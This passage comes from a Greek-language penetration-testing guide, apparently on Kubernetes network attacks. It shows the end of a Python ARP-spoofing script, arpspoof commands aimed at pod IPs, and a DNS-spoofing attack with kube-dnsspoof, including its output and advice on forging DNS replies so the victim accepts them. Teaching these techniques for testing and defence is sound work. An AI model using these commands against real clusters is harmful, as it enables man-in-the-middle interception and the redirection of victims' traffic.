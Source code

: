 ```python
restorearp(gatewayip, gatewaymac, targetip, targetmac)
restorearp(targetip, targetmac, gatewayip, gatewaymac)
quit()

if __name__=="__main__":
main()

# To enable IP forwarding: echo 1 > /proc/sys/net/ipv4/ip_forward
```
{% endcode %}

### ARPSpoof
```bash
apt install dsniff
arpspoof -t 172.17.0.9 172.17.0.10
```
## DNS Απάτη

Όπως ήδη αναφέρθηκε, αν **θέτετε σε κίνδυνο ένα pod στον ίδιο κόμβο του pod του DNS server**, μπορείτε να **κάνετε MitM** με **ARPSpoofing** το **γέφυρα και το pod του DNS** και **να τροποποιήσετε όλες τις απαντήσεις DNS**.

Έχετε ένα πολύ καλό **εργαλείο** και **οδηγό** για να δοκιμάσετε αυτό στο [**https://github.com/danielsagi/kube-dnsspoof/**](https://github.com/danielsagi/kube-dnsspoof/)

Στο σενάριό μας, **κατεβάστε** το **εργαλείο** στο pod του εισβολέα και δημιουργήστε ένα **αρχείο με το όνομα `hosts`** με τα **domains** που θέλετε να **κάνετε απάτη** όπως:
```
cat hosts
google.com. 1.1.1.1
```
Εκτελέστε την επίθεση στη μηχανή ubuntu-victim:
```
python3 exploit.py --direct 172.17.0.10
[*] starting attack on direct mode to pod 172.17.0.10
Bridge:  172.17.0.1 02:42:bd:63:07:8d
Kube-dns:  172.17.0.2 02:42:ac:11:00:02

[+] Taking over DNS requests from kube-dns. press Ctrl+C to stop
```

```bash
#In the ubuntu machine
dig google.com
[...]
;; ANSWER SECTION:
google.com.		1	IN	A	1.1.1.1
```
{% hint style="info" %}
Εάν προσπαθήσετε να δημιουργήσετε το δικό σας script DNS spoofing, αν απλά τροποποιήσετε την απάντηση DNS αυτό **δε θα λειτουργήσει**, επειδή η απάντηση θα έχει ως **src IP** τη διεύθυνση IP του **κακόβουλου pod** και **δε θα γίνει δεκτή**.\
Χρειάζεται να δημιουργήσετε ένα **νέο πακέτο DNS** με το **src IP** του **DNS** όπου ο θύματος στέλνει το αίτημα DNS (κάτι σαν το 172.16.0.2, όχι το 10.96.0.10, αυτή είναι η IP υπηρεσίας DNS του K8s και όχι η IP του διακομιστή DNS, περισσότερα σχετικά με αυτό στην εισαγωγή).
{% endhint %}
